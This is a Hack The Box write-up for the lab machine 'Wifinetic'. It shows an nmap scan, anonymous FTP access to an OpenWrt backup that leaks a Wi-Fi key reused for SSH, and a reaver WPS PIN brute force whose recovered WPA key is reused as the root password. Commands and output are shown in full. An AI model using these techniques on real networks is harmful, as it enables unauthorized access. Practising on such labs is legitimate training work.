

# Challenge Name

<p align="center"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Wifinetic
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
ip=10.10.11.247; ports=$(sudo nmap -p- --min-rate=1000 -T4 $ip | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//); sudo nmap -p$ports -sC -sV $ip -Pn

PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.89
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

## Foothold

### `user1` → `netadmin` 🚩

#### Searching for Vulnerabilities

- ftp server allows anonymous login and contains an OpenWRT backup
- after extracting the tar archive, the file `etc/config/wireless` contains a password:
    
    ```
    config wifi-iface 'wifinet0'
    	option device 'radio0'
    	option mode 'ap'
    	option ssid 'OpenWrt'
    	option encryption 'psk'
    	option key 'VeRyUniUqWiFIPasswrd1!'
    	option wps_pushbutton '1'
    ```
    
- the file `etc/passwd` shows, that user `netadmin` has a home directory

#### Exploitation

1. We can login via ssh as `netadmin` with password `VeRyUniUqWiFIPasswrd1!` 🚩


## Privilege Escalation

### `netadmin` → `root` 🏁

#### Searching for Vulnerabilities

- `iwconfig` output shows, that there is a interface `mon0` in monitor mode:
    
    ```
    eth0      no wireless extensions.
    
    wlan2     IEEE 802.11  ESSID:off/any
              Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
    
    mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    
    wlan1     IEEE 802.11  ESSID:"OpenWrt"
              Mode:Managed  Frequency:2.412 GHz  Access Point: 02:00:00:00:00:00
              Bit Rate:9 Mb/s   Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
              Link Quality=70/70  Signal level=-30 dBm
              Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
              Tx excessive retries:0  Invalid misc:6   Missed beacon:0
    
    wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    
    hwsim0    no wireless extensions.
    
    lo        no wireless extensions.
    ```

- the `MigrateOpenWrt.txt` file from the ftp server indicates, that the tool `reaver` might be installed:
    
    ```
    |  +-----------------------------------------------+    |
    |  |          Test and Troubleshoot                |    |
    |  +-----------------------------------------------+    |
    |  |                                               |    |
    |  |   - Test Wifi connectivity and performance    |    |
    |  |   - Verify all services are functioning       |    |
    |  |   - Address and resolve any issues            |    |
    |  |   - Test for security issues with Reaver tool |    |
    |  |                                               |    |
    |  +-----------------------------------------------+    |
    ```


#### Exploitation

1. [reaver](https://www.notion.so/reaver-92a9bcd96c3d47b6a13a3df17641d19d?pvs=21) can be used to bruteforce the WPS PIN and recover the wifi password:
    
    ```
    $ reaver -i mon0 -b 02:00:00:00:00:00 -vv
    
    Reaver v1.6.5 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
    
    [+] Waiting for beacon from 02:00:00:00:00:00
    [+] Switching mon0 to channel 1
    [+] Received beacon from 02:00:00:00:00:00
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [!] Found packet with bad FCS, skipping...
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received WSC NACK
    [+] Sending WSC NACK
    [!] WPS transaction failed (code: 0x04), re-trying last pin
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK
    [+] Pin cracked in 3 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
    [+] AP SSID: 'OpenWrt'
    [+] Nothing done, nothing to save.
    ```

2. We can login as `root` with password `WhatIsRealAnDWhAtIsNot51121!` 🏁